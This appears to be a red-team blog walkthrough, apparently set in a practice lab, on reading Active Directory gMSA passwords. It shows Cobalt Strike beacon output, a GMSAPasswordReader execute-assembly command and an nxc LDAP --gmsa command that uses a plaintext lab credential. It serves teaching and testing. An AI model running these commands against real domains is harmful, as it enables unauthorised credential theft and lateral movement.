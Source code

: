 ```yaml
---
title: CredentialAccess - GMSA
date: 2025-05-15 05:01:00 +/-TTTT
categories: [CredentialAccess]
tags: [GMSA]     # TAG names should always be lowercase
image : /assets/images/GMSA.gif
---
```


## Entry
gMSAs (Group Managed Service Accounts) are special AD accounts designed to provide automatic password management for service accounts on multiple servers. They store their passwords securely in AD.

## Enumerate

We can realized which user || group can read **GMSA** password with bloodhound.
![alt text](../assets/images/gmsa1.png)

So we can use any member of this group to read GMSA.
```sh
[05/18 22:58:41] beacon> net group ADMSVC
[05/18 22:58:41] [*] Tasked beacon to run net group ADMSVC on localhost
[05/18 22:58:42] [+] host called home, sent: 106227 bytes
[05/18 22:58:44] [+] received output:
Members of ADMSVC on \\localhost:

websvc
Norman.Baxter
Thomas.Powell
```
Nice lets use Thomas.Powell for read this GMSA.

## Attack with Cobalt Strike

I will use [GMSAPasswordReader](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/GMSAPasswordReader.exe) here.

Command to execute:
```sh
execute-assembly /home/elliot/Documents/redteaming/tools/SharpCollection/NetFramework_4.7_Any/GMSAPasswordReader.exe --AccountName "MGTSVC$"
```
![alt text](../assets/images/gmsa2.png)

and we got it!

## Linux Abuse

GMSA use LDAP protocol btw and **nxc** has great module for this

Command to execute:
```sh
nxc ldap DC.sendai.vl -u 'Thomas.Powell' -p 'Password123!' --gmsa
```
![alt text](../assets/images/gmsa3.png)

